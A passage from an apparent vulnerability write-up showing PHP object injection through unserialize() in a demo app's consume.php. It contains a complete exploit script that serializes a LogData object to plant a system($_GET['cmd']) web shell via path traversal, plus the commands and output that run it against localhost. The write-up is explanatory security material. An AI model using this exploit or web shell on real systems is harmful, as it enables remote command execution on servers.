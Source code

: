 Usage of `LogData` class:
```
php > print_r(new LogData('TEST', 'log.txt'));
O:7:"LogData":2:{s:4:"data";s:4:"TEST";s:4:"file";s:7:"log.txt";}
```


#### 2.6. The vulnerability in `consume.php:4`

```
$car = unserialize(base64_decode($contents));
```
Note: Untrusted used data de-serialized which also allows `LogData` objects to be consumed server-side directly from `consume.php`.


#### 2.7. Building a malicious `LogData` object

File: `sploit.php`
```
<?php

class LogData
{
    public $data;

    public function __construct($data, $file)
    {
        $this->data = $data;
        $this->file = $file;
    }

    public function __destruct()
    {
        file_put_contents(
            dirname(__FILE__) . '/../logs/' . $this->file,
            $this->data . PHP_EOL,
            FILE_APPEND
        );
    }
}

$log = new LogData(
    '<?=system($_GET["cmd"]);',
    '../log.php'
);
print_r(base64_encode(serialize($log)));
```

Running the sploit:
```
# http https://127.0.0.1:8443/demo/sploit.php --verify=no -b | awk 'NF' | base64 --decode && echo
O:7:"LogData":2:{s:4:"data";s:23:"<?=system($GET["cmd"]);";s:4:"file";s:10:"../log.php";}
# payload=`http https://127.0.0.1:8443/demo/sploit.php --verify=no -b | awk 'NF'`
# http -f https://127.0.0.1:8443/demo/consume.php data=$payload --verify=no -b | awk 'NF'
LogData Object
(
    [data] => <?=system($_GET["cmd"]);
    [file] => ../log.php
)
# http https://127.0.0.1:8443/demo/log.php?cmd="uname -a" --verify=no -b
Linux 098396e66aff 4.9.0-3-amd64 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) x86_64 Linux
Linux 098396e66aff 4.9.0-3-amd64 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) x86_64 Linux
```
